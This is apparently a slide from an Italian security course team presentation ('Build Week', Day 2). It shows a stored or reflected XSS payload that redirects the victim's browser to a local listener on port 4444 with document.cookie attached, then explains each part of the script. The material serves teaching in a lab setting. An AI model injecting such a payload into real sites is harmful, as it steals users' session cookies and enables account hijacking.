

3.5 - SCRIPT

<script>window.location='http://127.0.0.1:4444/?cookie='+document.cookie</script>

Qui di sopra è possibile osservare lo script malevolo in javascript che ci consegnerà i cookie di sessione dello sfortunato utente sul nostro server in ascolto.

Analizziamo lo script:
window.location=: è una proprietà del browser che viene usata per ottenere o impostare l'URL corrente della finestra. In questo caso, viene utilizzata per reindirizzare l'utente all’URL del nostro local host e alla porta 4444.
cookie=: è il parametro di query “ ?cookie=’ “che includerà i cookie di sessione.
+document.cookie: Questa parte concatena il valore di document.cookie alla stringa URL. document.cookie è un comando javascript che recupera tutti i coockie disponibili della pagina corrente.

GIORNO 2
BUILD WEEK - TEAM 6